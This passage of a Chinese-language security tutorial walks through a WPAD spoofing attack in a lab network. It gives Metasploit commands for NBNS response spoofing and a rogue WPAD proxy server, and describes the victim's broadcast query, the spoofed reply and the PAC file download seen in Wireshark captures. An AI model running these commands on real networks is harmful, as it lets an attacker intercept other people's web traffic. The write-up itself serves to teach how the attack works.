 **1、监听NBNS查询**

```
use auxiliary/spoof/nbns/nbns_response
set regex WPAD
set spoofip 192.168.16.245
run

```

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/f55f58bb70d9c72074958471a15cb1c54fc26845.jpg)

**2、设置WPAD服务器**

```
use auxiliary/server/wpad
set proxy 192.168.16.245
run

```

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/331831e6414df0763405154a59520146cc4a182a.jpg)

**3、被攻击用户发起查询**

构造广播NBNS查询

需要使当前dbcp和dns服务器均无法提供的PAC文件位置

**4、响应被攻击机用户的广播NBNS查询**

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/86b214d8c323e9af0c8fff5ede6befa5b6358416.jpg)

攻击主机响应广播NBNS查询并指定PAC文件位置

被攻击主机访问指定的PAC位置请求下载

wireshark抓包如图

广播NBNS查询包，如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/3d2431db022730daa54dd1af503cb643511b3e73.jpg)

NBNS查询响应包，如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/88a49d8cc57ea103466ff13b882ad5624d01750b.jpg)

被攻击主机请求PAC文件位置，如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/f686f2087eae6eeac5bec55a2c024ddd30519ca6.jpg)

攻击主机回复PAC文件信息，如图
